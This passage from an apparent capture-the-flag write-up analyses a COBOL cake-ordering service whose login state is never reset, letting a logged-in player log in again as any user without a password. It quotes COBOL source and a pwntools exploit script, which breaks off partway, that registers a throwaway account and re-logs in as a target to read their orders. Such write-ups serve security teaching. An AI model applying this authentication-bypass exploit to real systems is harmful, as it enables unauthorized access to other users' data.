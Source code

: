 Therefore, after a first successful login, the variable stays true.


### Logged-in, logged-out? Who cares!

So, can we just log out after a successful login and log in as a different user?
Unfortunately, no: there's no logout functionality, unless you quit the application.
Restarting the app, however, does reset `WS-SUCCESS` back to `"F"`.
And once you're logged in, you can't simply log in again as someone else, right?
If you remember from the asciinema recording, there's no login option shown after you've already logged in.
At first glance, it might seem that way because the login menu option disappears after you've logged in:

```cobol
        05  LOGGEDOUT-SECTION.
            10  VALUE "(L)OGIN - User Login" LINE 04 COL 02.
```

However, the code that handles the login menu option doesn't check for that:
```cobol {hl_lines=[8, 9, 10, 11, 12]}
        PROCEDURE DIVISION.
            DISPLAY WELCOME-SCREEN
            DISPLAY EOP-INDICATOR
            ACCEPT WELCOME-SCREEN
            PERFORM UNTIL WS-MENU IS EQUAL TO "Q"
                EVALUATE WS-MENU
                WHEN "L"
                    MOVE SPACES TO WS-MENU
                    CALL "LOGIN" USING WS-UNAME WS-MSG
                    IF WS-UNAME IS NOT EQUAL TO SPACES
                        MOVE 1 TO WS-LOGGED-IN
                    END-IF
...
```

Therefore, we can just log in again!
And since the second login can't fail (`WS-SUCCESS` is `"T"`), we can actually log in as any user while logged in as someone else.

{{< asciinema 4EcvBY4XI7SFdW4MtMp2prLLN >}}


### The exploit

In short: register an account, log in with it, then log in again as a target user and view their cake orders - the flags are stored there.
We get the usernames as flag IDs.
So, the full exploit boils down to:

```python
from pwn import *

# connect to the target team's service
r = remote(f"fd66:666:{team_id}::2", 4321)

# choose a random username which we will register (so we can log into a known user)
username = "user_" + str(random.randrange(999999999))

# some input is required to open the (M)ain menu
r.sendline(b"M")
# (R)egister a user
r.sendline(b"R")
# send the username, leave the password blank
r.sendline(username.encode())
# (L)og in
r.sendline(b"L")
# send the username, leave the password blank
```